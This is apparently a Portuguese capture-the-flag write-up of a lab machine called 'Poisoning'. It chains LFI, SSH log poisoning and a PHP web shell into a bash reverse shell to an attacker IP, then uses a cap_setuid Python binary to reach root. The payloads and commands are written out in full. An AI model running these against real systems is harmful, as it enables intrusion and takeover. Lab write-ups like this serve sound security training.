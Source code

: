 ```yaml
---
title: 'Poisoning Writeup'
date: '2024-11-08'
tags: ['LFI', 'RCE', 'Linux']
draft: false
summary: 'A Máquina Poisoning possui vulnerabilidade LFI explorado com Log Poisoning para execução de RCE, seguido por privilege escalation usando Python com capacidade cap_setuid+ep para root.'
images: ['/static/images/poisoning-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/poisoning-writeup-images/default.png)

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 44:78:eb:00:c1:c8:a7:25:1c:57:61:68:2b:1b:37:37 (RSA)
|   256 1d:6f:e8:50:cb:74:10:cc:62:60:43:76:38:67:e3:be (ECDSA)
|_  256 99:8a:b1:8b:f3:c3:47:a0:14:20:33:d7:0b:71:92:8d (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Crowsec
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Nicepage 3.25.3, nicepage.com
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Somente as portas 22 (SSH) e 80 (HTTP) estão abertas

---

### **Enumeration**

## http://172.16.7.186

![poisoning](/static/images/poisoning-writeup-images/image.png)

O site em sí não tem muita funcionalidade; no entanto, foi possível achar um arquivo php que podemos utilizar pra ganhar um LFI.

![poisoning 2](/static/images/poisoning-writeup-images/image1.png)

Utilizei o ffuf pra realizar um fuzzing no parametro:

`ffuf -u http://172.16.7.186/\\?FUZZ\\=/etc/passwd -ic -w /usr/share/wordlists/seclists/Discovery/Web-Content/dirsearch.txt -fw 5559`

![poisoning 2](/static/images/poisoning-writeup-images/image2.png)

Parâmetro page encontrado!

`http://172.16.7.186/?page=/etc/passwd`

![poisoning 3](/static/images/poisoning-writeup-images/image3.png)

Como a porta 22 (SSH) está aberta, escalei o LFI pra um RCE, envenenando o log do ssh.

primeiro, me conectei ao ssh com o netcat:

`nc -nv $IP 22`

Em seguida, basta mandar a `webshell` em php dentro do ssh.

`h4x0rh4x/<?php passthru($_GET['cmd']); ?>`

![poisoning 4](/static/images/poisoning-writeup-images/image4.png)

Para verificar se deu certo, teremos que usar o LFI pra acessar o diretório `var/log/auth.log`

`172.16.7.186/?page=/var/log/auth.log`

![poisoning 5](/static/images/poisoning-writeup-images/image5.png)

Com isso temos o nosso RCE.

---

## Foot Hold

`http://172.16.7.186/?page=/var/log/auth.log&cmd=bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'`

OBS: Lembre-se de encodar a payload.

![poisoning 6](/static/images/poisoning-writeup-images/image6.png)

---

## Privillege Escalation

`getcap -r / 2>/dev/null`

![poisoning 7](/static/images/poisoning-writeup-images/image7.png)

`/usr/bin/python3.6 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

![poisoning 8](/static/images/poisoning-writeup-images/image8.png)

---

## Proof

![poisoning 9](/static/images/poisoning-writeup-images/image9.png)
